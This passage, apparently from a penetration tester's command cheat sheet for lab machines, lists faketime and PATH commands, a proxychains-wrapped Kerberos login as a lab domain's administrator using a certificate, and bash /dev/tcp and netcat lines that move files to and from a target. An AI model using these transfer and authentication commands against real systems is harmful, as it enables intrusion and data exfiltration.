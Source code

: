 ### Export Path

```console
$ echo $PATH
$ export PATH=`pwd`:$PATH
```

## faketime

```console
$ faketime 'last friday 5 pm' /bin/date
$ faketime '2008-12-24 08:15:42' /bin/date
$ faketime -f '+2,5y x10,0' /bin/bash -c 'date; while true; do echo $SECONDS ; sleep 1 ; done'
$ faketime -f '+2,5y x0,50' /bin/bash -c 'date; while true; do echo $SECONDS ; sleep 1 ; done'
$ faketime -f '+2,5y i2,0' /bin/bash -c 'date; while true; do date; sleep 1 ; done'
```

### Proxychains and Kerberos

```console
$ proxychains faketime -f +1h kinit -V -X X509_user_identity=FILE:admin.cer,admin.key administrator@WINDCORP.HTB
```

## fg

```console
$ fg
```

## file

```console
$ file <file>
```

## File Transfer

> https://gtfobins.github.io/#+file%20upload

### Bash File Transfer

#### To the Target

```console
$ bash -c "cat < /dev/tcp/<RHOST>/<RPORT> > <FILE>"
$ nc -lnvp <LPORT> > <FILE>
```

#### From the Target

```console
$ bash -c "cat < <FILE> > /dev/tcp/<RHOST>/<RPORT>" 
$ nc -lnvp <LPORT> > <FILE>
```
